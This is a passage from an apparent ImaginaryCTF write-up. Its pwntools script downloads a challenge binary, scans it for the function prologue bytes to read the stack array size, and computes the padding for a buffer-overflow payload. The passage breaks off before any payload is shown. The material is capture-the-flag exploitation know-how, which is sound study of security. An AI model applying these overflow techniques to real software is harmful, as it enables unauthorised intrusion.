 
### Array size scanner
![img](ImaginaryCTF/Pasted_image_20210727202414.png) 
 
In pattern I decided to use 

```x86asm
push   rbp
mov    rbp, rsp
sub    rsp, [ARRAY SIZE]
```
next three bytes after this instructions are in which determine array size
this operation in hex are:
```
48 89 E5 48 81 EC [? ? ?]
```
where array size are three question marks


Code which scan array in file via prepared pattern 
```py
from pwn import *
import base64
import struct
import os

server = remote("chal.imaginaryctf.org", 42020)



# get software dump
server.recvuntil("---------------------------BEGIN  DATA---------------------------")
server.recvline()
binary_base64 = server.recvline()
binary_hex = base64.b64decode(binary_base64).hex().upper()


# save data to file
exploit_binary = open('2hack', 'wb')
bytes_object = bytes.fromhex(binary_hex)
exploit_binary.write(bytes(bytes_object))
exploit_binary.close()
binary = ELF('./2hack')
context.binary = binary
os.chmod("./2hack", 0o777)


pattern_prefix = "4889E54881EC"
index = binary_hex.index(pattern_prefix) + 12
array_size = int(str(binary_hex[index + 4] + binary_hex[index + 5] + binary_hex[index + 2] + binary_hex[index + 3] + binary_hex[index] + binary_hex[index + 1]), base=16)
print("Array size: ", array_size)
padding = array_size + 8
```
